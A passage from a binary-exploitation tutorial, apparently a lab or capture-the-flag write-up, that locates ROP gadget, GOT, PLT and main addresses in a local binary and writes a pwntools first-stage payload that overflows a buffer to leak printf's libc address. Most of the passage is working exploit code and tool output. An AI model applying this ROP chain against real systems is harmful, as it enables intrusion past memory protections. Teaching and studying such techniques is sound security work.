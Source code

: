 4. Address of main function

<br>
We can use the ropper tool available in gef to find the rop gadget and use essential linux commands to find the rest. Let's get to it.
<br>
```terminal
gef➤  ropper --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/Tuts/blogposts/smashbin/aslr_leak/garbage
0x000000000040179b: pop rdi; ret; 
```
<br>
Address of the rop gadget is: **0x40179b**
<br>
```terminal
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# objdump -D garbage | grep printf
0000000000401090 <printf@plt>:
  401090:       ff 25 b2 2f 00 00       jmpq   *0x2fb2(%rip)        # 404048 <printf@GLIBC_2.2.5>
```
<br>
Address of printf GOT entry: **0x404048**
<br>
```terminal
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# objdump -D garbage | grep put
0000000000401050 <puts@plt>:
  401050:       ff 25 d2 2f 00 00       jmpq   *0x2fd2(%rip)        # 404028 <puts@GLIBC_2.2.5>
```
<br>
Address of puts PLT entry: **0x401050**
<br>
```terminal
root@kali:~/Tuts/blogposts/smashbin/aslr_leak# objdump -D garbage | grep main
  401194:       ff 15 56 2e 00 00       callq  *0x2e56(%rip)        # 403ff0 <__libc_start_main@GLIBC_2.2.5>
0000000000401619 <main>:
```
<br>
Lastly, addres of main: **0x401619**
<br>
Using these knowledge let's code the first stage of our exploit.
<br>
```python
from pwn import *

p = process("./garbage")

# Stage 1 (Leaking the address of printf@GLIBC)
plt_main = p64(0x401619)
plt_put = p64(0x401050)
got_printf = p64(0x404048)
pop_rdi = p64(0x40179b)
junk = "A" * 136

#Create the payload. This will print the address of printf to stdout and jump back to the main function.
payload = junk + pop_rdi + got_printf + plt_put + plt_main

#Send the payload, parse the printed address and store it.
p.sendline(payload)
p.recvuntil("denied.")
leaked_printf = p.recv()[:8].strip().ljust(8, "\00")
```